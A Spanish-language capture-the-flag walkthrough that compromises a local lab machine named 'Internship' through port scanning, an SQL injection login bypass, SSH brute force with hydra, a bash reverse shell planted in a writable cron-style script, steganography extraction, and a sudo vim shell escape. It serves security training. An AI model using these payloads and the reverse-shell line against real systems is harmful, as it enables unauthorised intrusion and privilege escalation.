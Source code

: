 ```yaml
---
description: '✍️ Autor: s1egfr1ed🔍 Dificultad: Fácil 📅 Fecha de creación: 13/02/2025'
---
```


# Internship

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Viendo el código fuente encontramos un dominio por lo que lo añadimos al `/etc/hosts`.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 193843.png" alt=""><figcaption></figcaption></figure>

Recargamos la página y pulsamos a Iniciar Sesión. Al ser un panel de Login realizamos el típico bypass para probar.

```
' or 1=1 -- -
' or 1=1 -- -
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay unos usuarios por lo que ponemos los nombres en un archivo para realizar fuerza bruta. Nos falta la contraseña por lo que seguimos indagando por lo que escaneamos los directorios.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención de un directorio llamado `/spam`. A primera vista nos sale vacío pero revisamos el código fuente.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Parece que contiene información relevante pero esta en ROT13.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 195359.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ahora sí tras descubrir la contraseña hacemos fuerza bruta.

```
hydra -L usuarios -p purpl3 -I ssh://172.17.0.2 
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales.

```bash
ssh pedro@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Dentro del directorio `/opt`, encontramos el script `log_cleaner.sh`, el cual pertenece al usuario `valentina` y tiene permisos de lectura, escritura y ejecución para su propietario, así como permisos de lectura y escritura para otros usuarios.

```bash
#!/bin/bash
bash -i >& /dev/tcp/172.17.0.1/445 0>&1
```

Nos ponemos en escucha.

```
nc -nlvp 445
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay una imagen por lo que nos la traemos a nuestra máquina para realizar la técnica de esteganografía.

```bash
mv profile_picture.jpeg /tmp
chmod 0777 /tmp/profile_picture.jpeg
```

En nuestra máquina local.

```bash
scp pedro@172.17.0.2:/tmp/profile_picture.jpeg .
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Usamos la herramienta de **Steghide**.

```
steghide extract -sf profile_picture.jpeg
```

Miramos el contenido del archivo.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Será la contraseña de valentina.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/vim/#sudo" %}

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
